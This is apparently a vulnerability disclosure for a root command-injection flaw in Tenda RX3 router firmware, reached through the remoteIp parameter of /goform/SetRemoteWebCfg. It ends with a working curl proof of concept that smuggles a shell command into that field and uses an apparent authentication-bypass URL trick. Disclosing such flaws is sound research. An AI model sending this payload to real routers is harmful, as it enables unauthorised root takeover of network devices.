


| Firmware Name | Firmware Version    | Download Link |
| ------------- | ------------------- | ------------- |
| RX3           | V16.03.13.11_multi  | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis

In the httpd binary, the function `formSetSafeWanWebMan` handles requests to `/goform/SetRemoteWebCfg`. The `remoteIp` parameter is stored in NVRAM key `wans.wanwebip` without sanitization. The `netctrl` binary's `advance_save_wan_access_cfg` function later reads this value via `GetValue("wans.wanwebip")` and passes it directly to `doSystemCmd("iptables -t nat -A %s -p tcp -d %s -s %s ...")`, which calls `system()`, allowing arbitrary command execution as root.

This endpoint requires authentication. Combined with the [authentication bypass](../auth_bypass/detail.md), it can be exploited without credentials from the LAN.



## POC

```
curl -i -X POST "http://192.168.0.1/goform/SetRemoteWebCfg?reasy-ui-1.0.3.js" -d "remoteWebEn=1&remoteIp=1.2.3.4;id>/tmp/pwned&remotePort=8080"
```


